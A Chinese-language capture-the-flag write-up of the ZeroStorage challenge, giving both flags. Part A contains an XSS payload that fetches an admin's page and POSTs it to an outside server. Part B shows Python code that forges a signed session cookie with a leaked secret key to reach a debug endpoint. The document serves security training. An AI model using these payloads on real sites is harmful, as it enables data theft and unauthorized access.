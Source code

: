 # ZeroStorage

Author : `Sciuridae` Team : `0xdeadbeef`   
Flag A : `FLAG{i_guess_I_run_OuT_of_IDEAs_ABouT_NuMbers......}`  
Flag B : `FLAG{DO_u_rEMEmBeR_LudiBRIUM_s_Funny_tIME_makeR_bgM?}`

## 解題過程

### ZeroStorage A

首先登入系統後，他可以隨意地上傳檔案，然後可以把連結回報給 Admin，想了一下應該可以直接把 HTML 丟給 Admin 讓他把自己首頁的資料傳回自己的 Server ，所以就簡單寫了一個 Payload (･ω´･ )

Payload : 
```html
<script>
fetch('/home').then(_=>_.text()).then(text => fetch('http://1.2.3.4:3000/',{body:text,method:"POST"}))
</script>
```

接下來把檔案丟上去然後等 Server 自己把 /home 丟回來後取得 Filename 後在取得檔案內容後，就可以取得 Flag A :D

### ZeroStorage B

在登入時把原本要 POST 的 /login 改成 GET 方式請求後後端找不到相應的 Route 而發生錯誤，在錯誤訊息中有用來簽署 Session 的 Secret key，這等等可以用到

![ZeroStorage error](https://github.com/Ret2NOP/CTF-WriteUp/raw/main/2020/AIS3%20EOF%20CTF/assets/ZeroStorage-error.png)

看了一下 Source code 有一個 debug_user 的功能，只是他需要 Session 中的 debug 需要為 True，而剛剛取得的 Secret key 就有用處了，我們可以把 Key 拿來自己簽署，所以就自己寫了底下的 Code 用來自己簽屬 debug : 1 的 Cookie。

Code : 
```python
import json
import typing
from base64 import b64decode, b64encode

import itsdangerous
from itsdangerous.exc import BadTimeSignature, SignatureExpired

signer = itsdangerous.TimestampSigner(
    "Ludibrium-Secret-133.221.333.123.111_kvYAtbZkwkhyPv5B")

to_enc = {'debug' : 1,'id': 0, 'filenames': []}
enced = b64encode(json.dumps(to_enc).encode("utf-8"))
enceded = signer.sign(enced).decode("utf-8")
print(enceded)

```

接下來就可以直接存取 /debug_user?id=0，網頁內的 pass 就是 Flag B！

![ZeroStorage Flag B](https://github.com/Ret2NOP/CTF-WriteUp/raw/main/2020/AIS3%20EOF%20CTF/assets/ZeroStorage-FlagB.png)